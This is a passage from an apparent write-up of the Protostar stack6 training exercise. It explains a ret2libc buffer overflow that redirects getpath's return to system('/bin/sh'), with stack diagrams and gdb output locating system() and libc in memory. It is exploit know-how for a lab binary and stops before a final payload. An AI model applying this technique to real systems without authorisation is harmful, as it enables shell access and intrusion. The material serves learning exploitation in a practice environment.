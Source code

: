 At this point, the program first pushes the address of the string ("/bin/sh" in this case) onto the stack as an argument for `system()`. Right after that comes the return address so that the execution can resume after the function.

So right now, our stack looks like this: 

``` shell
|      .....       |  <--------- Higher address
|------------------|
|  "/bin/sh" addr  |  
|------------------|
|  Return Address  | 
|------------------|
|      .....       |  <--------- Lower address
|------------------|
```

You might think how does this help us to solve the problem right? The answer lies in the process of overwriting the return address of **getpath** function. 

By doing so, we can redirect program execution to `system()`, which means the **ret** instruction acts as an indirect call to **system()**. And we will set up the stack just like in the scenario above, placing the return address of the call to **system** and the argument ***"/bin/sh"*** for it! 

Stack representation for our solution:

``` shell
|      .....       |  <--------- Higher address
|------------------|
|  "/bin/sh" addr  | 
|------------------|
| Fake return addr |  
|------------------|
|  system() addr   | 
|------------------|
|     Padding      | 
|------------------|
|      .....       |  <--------- Lower address
```

Now, I will find the address of **system**:

``` shell
user@protostar:~$ gdb /opt/protostar/bin/stack6
(gdb) break *getpath
Breakpoint 1 at 0x8048484: file stack6/stack6.c, line 7.
(gdb) r
...
(gdb) p system          
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

For the string **"/bin/sh**:

``` shell
(gdb) info proc map
process 2272
cmdline = '/opt/protostar/bin/stack6'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
```